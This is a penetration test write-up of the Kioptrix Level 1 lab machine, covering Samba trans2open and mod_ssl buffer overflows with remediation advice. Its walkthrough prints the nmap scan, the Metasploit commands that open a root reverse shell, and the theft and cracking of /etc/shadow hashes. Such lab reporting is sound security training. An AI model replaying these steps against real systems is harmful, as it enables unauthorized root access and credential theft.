




# Kioptrix Level 1: Penetration Test Report

**Date:** February 10, 2026
**Author:** Tejasdeep Singh Anand
**Target:** Kioptrix Level 1 (Boot2Root)
**Target IP:** `192.168.122.88`
**Risk Level:** <span style="color:red">**CRITICAL**</span>

---

## 1. Executive Summary

During the security assessment of the Kioptrix Level 1 server, multiple **Critical** vulnerabilities were identified, most notably in the Samba file sharing service (Port 139) and the Apache Web Server (Port 80/443).

The primary vector, a remote buffer overflow in Samba 2.2.1a (`trans2open`), allows an unauthenticated, remote attacker to execute arbitrary code with **Root (System Administrator)** privileges. This vulnerability requires no user interaction and grants total control over the system.

**Business Impact:**
Successful exploitation results in a complete compromise of the server's Confidentiality, Integrity, and Availability (CIA Triad). An attacker can:

* Exfiltrate sensitive user data and password hashes.
* Install persistent malware or ransomware.
* Use the compromised host to pivot deeper into the internal network.

**Recommendation:** Immediate decommissioning or patching of the legacy Samba and Apache services is required.

---

## 2. Scope & Methodology

**Target Information:**

* **Hostname:** Kioptrix Level 1
* **IP Address:** `192.168.122.88`
* **OS:** Red Hat Linux 7.3 (Kernel 2.4.7)

**Tools Utilized:**

* **Reconnaissance:** Nmap, Nikto, Dirbuster
* **Enumeration:** Enum4linux (SMB)
* **Exploitation:** Metasploit Framework (Samba), GCC (Apache OpenFuck)
* **Post-Exploitation:** John the Ripper (Password Cracking)

---

## 3. Technical Findings

### 3.1. Primary Vulnerability: Samba trans2open Buffer Overflow

* **CVE ID:** CVE-2003-0201
* **CVSS Score:** 10.0 (Critical)
* **Affected Service:** Samba 2.2.1a (Port 139)

**Description:**
The vulnerability exists within the `call_trans2open` function in the Samba daemon (`smbd`). When handling a transaction request, the server fails to properly validate the length of the input buffer. By sending a specially crafted packet, an attacker can overwrite the stack's return address and redirect execution flow to malicious shellcode.

**Root Cause Analysis:**
Samba versions prior to 2.2.8 lack sufficient bounds checking on memory allocation for transaction requests. This allows a stack-based buffer overflow where the Instruction Pointer (EIP) is overwritten with a memory address pointing to the attacker's payload.

### 3.2. Secondary Vulnerability: Apache mod_ssl Buffer Overflow

* **CVE ID:** CVE-2002-0082
* **Affected Service:** Apache 1.3.20 / mod_ssl 2.8.4
* **Description:** A buffer overflow in the mod_ssl module allows for remote execution of code. While effective, this method required a secondary local privilege escalation step, making the Samba vector more efficient.

---

## 4. Proof of Concept (The Walkthrough)

### Phase 1: Reconnaissance

An aggressive Nmap scan revealed open ports for SSH (22), Web (80/443), and SMB (139).

```bash
nmap -p- -A -T4 192.168.122.88

```




### Phase 2: Exploitation (Samba trans2open)

Using the Metasploit Framework, the `trans2open` exploit was executed to gain a direct root shell. A non-staged payload was selected to ensure stability on the legacy kernel.

**Exploit Configuration:**

* **Exploit Module:** `exploit/linux/samba/trans2open`
* **Payload:** `linux/x86/shell_reverse_tcp` (Non-staged)
* **RHOST:** `192.168.122.88`
* **Target:** `0` (Linux x86)

**Execution Log:**

```bash
msf6 > use exploit/linux/samba/trans2open
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.122.88
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.1.X:4444
[*] 192.168.122.88:139 - Trying return address 0xbffffdfc...
[+] 192.168.122.88:139 - Command shell session 1 opened

```


### Phase 3: Post-Exploitation & Root Proof

Upon gaining access, system privileges were verified.

```bash
whoami
# root

id
# uid=0(root) gid=0(root) groups=99(nobody)

```


### Phase 4: Credential Analysis

The `/etc/shadow` file was exfiltrated to test password complexity.


**Password Cracking Results:**
| User Account | Hash Type | Status | Analysis |
| :--- | :--- | :--- | :--- |
| **root** | MD5 | **Protected** | Password withstood dictionary attack (RockYou.txt). |
| **john** | MD5 | **Compromised** | Weak credentials identified. |
| **harold** | MD5 | **Compromised** | Weak credentials identified. |

---

## 5. Remediation

To mitigate these risks, the following actions are recommended:

1. **System Upgrade:** The Red Hat 7.3 OS is End-of-Life. Migrate to a supported Linux distribution (e.g., Ubuntu LTS, RHEL 9).
2. **Patch Services:**
* Upgrade Samba to version **2.2.8a** or later.
* Upgrade Apache to the latest stable release.


3. **Network Segmentation:** Restrict access to Port 139/445 and Port 22 to trusted administrative subnets only via a firewall.

---
